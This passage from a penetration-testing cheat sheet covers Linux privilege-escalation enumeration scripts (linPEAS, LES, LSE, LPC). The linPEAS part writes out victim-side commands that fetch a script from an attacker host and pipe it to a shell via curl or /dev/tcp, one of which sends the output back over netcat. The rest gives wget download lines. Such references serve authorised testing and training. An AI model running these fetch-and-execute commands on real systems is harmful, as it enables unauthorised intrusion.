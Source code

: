 local:

```bash
    # Local network
    sudo python -m SimpleHTTPServer 80 #Host
    curl 10.10.10.10/linpeas.sh | sh #Victim

    # Without curl
    sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
    cat < /dev/tcp/10.10.10.10/80 | sh #Victim

    # Excute from memory and send output back to the host
    nc -lvnp 9002 | tee linpeas.out #Host
    curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

[Linpeas github](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

[:arrow_up:](#)

### LES (Linux Exploit Suggester)

```bash
    wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

[LES github](https://github.com/mzet-/linux-exploit-suggester)

[:arrow_up:](#)

### LSE (Linux Smart Enumeration)

```bash
    wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh
```

[LSE](https://github.com/diego-treitos/linux-smart-enumeration)

[:arrow_up:](#)

### LPC (Linux Priv Checker)

```bash
    wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
```

[LPC github](https://github.com/sleventyeleven/linuxprivchecker)

[:arrow_up:](#)
